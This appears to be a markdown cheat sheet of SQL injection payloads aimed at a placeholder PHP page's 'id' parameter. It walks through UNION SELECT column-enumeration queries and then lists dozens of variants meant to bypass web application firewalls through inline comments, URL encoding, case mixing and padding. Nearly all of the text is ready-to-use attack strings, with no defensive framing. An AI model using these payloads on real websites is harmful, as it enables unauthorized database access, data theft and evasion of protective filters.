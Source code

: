 ```http://domain.com/index.php?id=1```  
Using a simple query, we determine which of the 4 columns reflect our input using. Only 1 of these payloads will run without **syntax error**. *NOTE: If none worked, try the same payloads, but remove the quote (') after number 1.*    

```http://domain.com/index.php?id=1' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=-1 Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=-1' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=1'+UNION+ALL+SELECT+null,null,null,null--+-```  
```http://domain.com/index.php?id=1' Union Select null,2,3,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,null,3,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,2,null,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,2,3,null-- -```  
```http://domain.com/index.php?id=.1' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=-1' div 0' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,2,3,4 desc-- -```  
```http://domain.com/index.php?id=1' AND 0 Union Select 1,2,3,4-- -```  

Website must successfully load and we will see a number (in our case between 1-4)  

  - If the queries will not work, try the following payloads until you see the number:  
  
```http://domain.com/index.php?id=1+UNION+SELECT+1,2,3,4--+-```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+1,2,3,4--+-```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+1,2,3,4--+-```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+null,null,null,null--+-```  
```http://domain.com/index.php?id=1 UNION(SELECT(1),(2),(3),(4))-- -```  
```http://domain.com/index.php?id=1 +Union Distinctrow Select+1,2,3,4-- -```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+13371,13372,13373,13374--+-```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+1%2c2%2c3%2c4--+-```  
```http://domain.com/index.php?id=1 Union Select CHAR(49),CHAR(50),CHAR(51),CHAR(52)-- -```  
```http://domain.com/index.php?id=1 %23%0AUnion%23aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%0ASelect%23%0A1,2,3,4-- -``` (buffer by a * 300)  
 ```http://domain.com/index.php?id=Union Select * from (select 1)a join(select 2)b join(select 3)c join(select 4)d-- -```  

    - If the queries still doesn't show the vulnerable column number, it is probably the WAF blocking our queries. Let's try injection payloads which bypass it.   
    
    http://domain.com/index.php?id=1 /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %55nion(%53elect 1,2,3) 1,2,3,4-- -  
    http://domain.com/index.php?id=1+union+distinctROW+select+1,2,3,4--+-  
    http://domain.com/index.php?id=1+ #?uNiOn + #?sEleCt 1,2,3,4-- -  
    http://domain.com/index.php?id=1 + #?1q %0AuNiOn all#qa%0A#%0AsEleCt 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!%55NiOn*/ /*!%53eLEct*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +un/**/ion+se/**/lect 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +?UnI?On?+'SeL?ECT? 1,2,3,4-- -  
    http://domain.com/index.php?id=1+(UnIoN)+(SelECT)+1,2,3,4--+-  
    http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %55nion(%53elect 1,2,3,4)-- -  
    http://domain.com/index.php?id=1 /**//*!12345UNION SELECT*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**//*!50000UNION SELECT*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**/UNION/**//*!50000SELECT*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!50000UniON SeLeCt*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union /*!50000%53elect*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*--*/union/*--*/select/*--*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 union (/*!/**/ SeleCT */ 1,2,3,4)-- -  
    http://domain.com/index.php?id=1 /*!union*/+/*!select*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**/uNIon/**/sEleCt/**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +%2F**/+Union/*!select*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**//*!union*//**//*!select*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!uNIOn*/ /*!SelECt*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /**/union/*!50000select*//**/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 0%a0union%a0select%09 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %0Aunion%0Aselect%0A 1,2,3,4-- -  
    http://domain.com/index.php?id=1 uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %252f%252a*/UNION%252f%252a /SELECT%252f%252a*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!union*//*--*//*!all*//*--*//*!select*/ 1,2,3,4-- -  
```